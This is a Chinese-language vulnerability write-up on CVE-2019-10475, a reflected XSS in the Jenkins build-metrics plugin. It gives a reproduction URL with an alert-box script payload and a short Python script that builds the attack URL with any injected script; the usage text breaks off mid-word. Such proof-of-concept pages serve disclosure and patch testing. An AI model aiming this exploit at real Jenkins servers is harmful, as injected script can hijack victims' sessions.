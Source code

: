 （CVE-2019-10475） 插件反射型xss
================================

一、漏洞简介
------------

二、漏洞影响
------------

360 FireLine插件， 最高包括1.7.2 Bitbucket OAuth插件， 最高包括0.9
Build-metrics插件 1.3及以下 部署WebLogic Plugin 最高至4.1
Dynatrace应用程序监视插件， 最高包括2.1.3 Dynatrace应用程序监视插件，
最高包括2.1.4 ElasticBox Jenkins Kubernetes CI / CD插件， 最高至1.3
包含1.1.4及以下版本的 全局Post Script插件 Libvirt Slaves插件，
最高包括1.8.5 截至 2.7.0的 Mattermost Notification插件 Sonar
Gerrit插件， 最高包括2.3 Zulip插件 （包括1.1.0及以下）

三、复现过程
------------

### 1、手工复现

该vulnearble插件位于[http://localhost:8080/plugin/build-metrics/，漏洞参数为label。](http://localhost:8080/plugin/build-metrics/，漏洞参数为label。)

    http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-10475)反射xss/media/rId26.png)

### 2、利用脚本

    #!/usr/bin/env python

    import sys
    import argparse

    VULN_URL = '''{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search'''


    def get_parser():
        parser = argparse.ArgumentParser(description='CVE-2019-10475')
        parser.add_argument('-p', '--port', help='port', default=80, type=int)
        parser.add_argument('-d', '--domain', help='domain', default='localhost', type=str)
        parser.add_argument('-i', '--inject', help='inject', default='<script>alert("CVE-2019-10475")</script>', type=str)
        return parser


    def main():
        parser = get_parser()
        args = vars(parser.parse_args())
        port = args['port']
        domain = args['domain']
        inject = args['inject']
        if port == 80:
            base_url = f'http://{domain}'
        elif port == 443:
            base_url = f'https://{domain}'
        else:
            base_url = f'http://{domain}:{port}'
        build_url = VULN_URL.format(base_url=base_url, inject=inject)
        print(build_url)
        return 0


    if __name__ == '__main__':
        sys.exit(main())
    Usage:

    $ python3 CVE-2019-10475.py --help
    usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]

    CVE-2019-10475

    optional arguments:
      -h, --help            show this help message and exit
      -p PORT, --port PORT  port
      -d DOMAIN, --domain DOMAIN
                            domain
      -i INJECT, --inject INJECT
                            injec
